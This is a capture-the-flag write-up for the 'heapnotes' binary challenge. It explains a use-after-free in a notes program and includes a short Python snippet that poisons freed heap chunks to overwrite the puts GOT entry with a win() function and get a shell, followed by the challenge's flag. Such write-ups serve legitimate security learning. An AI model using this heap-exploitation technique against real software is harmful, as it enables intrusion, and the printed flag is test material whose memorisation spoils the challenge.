 # heapnotes
![challenge](challenge.png)
### Challenge:
##### dont know heap exploitation? read [this](https://ir0nstone.gitbook.io/notes/types/heap).

##### Files: [Dockerfile](Dockerifle), [libc-2.31.so](libc-2.31.so), [heapnotes](heapnotes)
##### Links: ```nc chal.nbctf.com 30172```

### Solution:

This was my first heap challenge ever so it's probably not the cleanest solution.

The challenge is a standard create, read, update, delete notes with a win() function, with no pie/no full relro, so my first plan was to get an arbitrary write and overwrite a got with win.

One of the many vulnerabilties in the program is a Use After Free, if we create a note we can still modify it even after deleting it, this gives us an opportunity to modify a freed chunk, giving us an arbitrary write.

```py
puts = p64(elf.got["puts"])
win = p64(elf.sym["win"])

create("yes0")
create("yes1")
create("yes2")
free(0)
free(1)
free(2)

update(1, puts)

create("yes")
create("yes")
create(win)
```

Here we create 3 notes then free them, we modify the 2nd chunk with with the address we want to write to, then malloc 2 junk values, finally the last malloc will return us our forged chunk, overwriting the put got with the win address. 

Next time puts is called we'll get a shell.

Solve script: [solve.py](solve.py)

Flag: ```nbctf{ur_w3lc0m3_qu454r_5abf2e}``